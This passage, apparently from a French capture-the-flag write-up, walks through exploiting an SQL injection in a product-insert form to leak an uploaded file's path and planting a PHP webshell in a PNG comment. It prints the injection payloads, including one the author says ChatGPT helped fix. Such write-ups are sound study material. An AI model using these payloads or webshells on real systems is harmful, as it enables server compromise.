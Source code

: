 ```
[13:31:46] [INFO] retrieved: image
```

Ce qu'il faut retenir, c'est qu'une injection qui cause un message d'erreur permet de visualiser le nom du fichier qui a été uploadé pour le produit.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'dd','5','images/7517f694fda4c9a26193686282fcd8ca.php')' at line
```

Ici, j'ai tenté d'uploader un shell, mais impossible de retrouver le fichier dans le dossier `images`.

Je soupçonne le script de supprimer le fichier si l'insertion SQL échoue. Par conséquence, on ne peut pas à la fois exploiter la faille SQL et uploader le shell en même temps.

Solution choisie : via un des champs (ici `description`) on va exfiltrer le path du fichier attaché au produit précédent.

Premièrement, je crée avec GIMP une image 1x1 et je l'exporte au format PNG. Dans les options d'exportation je place un commentaire qui contient un shell PHP.

Dans l'interface web, je récupère l'ID de mon produit (11).

Je procède à l'ajout d'un nouveau produit avec la valeur suivante pour le champ `name` :

```
test', (select image from products where id=11), '5', 'yolo') #
```

Malheureusement, j'ai obtenu un message d'erreur :

```
Table 'products' is specified twice, both as a target for 'INSERT' and as a separate source for data
```

MySQL n'aime pas la syntaxe. ChatGPT m'a aidé :

```
test', (SELECT image FROM (SELECT image FROM products WHERE id=11) AS temp), '5', 'yolo') #
```

Et finalement dans le descriptif du nouveau produit j'ai un path valide vers mon webshell. Victoire !

### Quarante boeufs

C'est désormais le moment de satisfaire notre curiosité.

On voit ici la page de login :

```php
<?php 
include 'functions.php';

$error = null;

if($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $conn = db_connect();
    $stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
    $stmt->bind_param("s", $username);
    $stmt->execute();
    $result = $stmt->get_result();
    
    if($result->num_rows > 0) {
        $user = $result->fetch_assoc();
```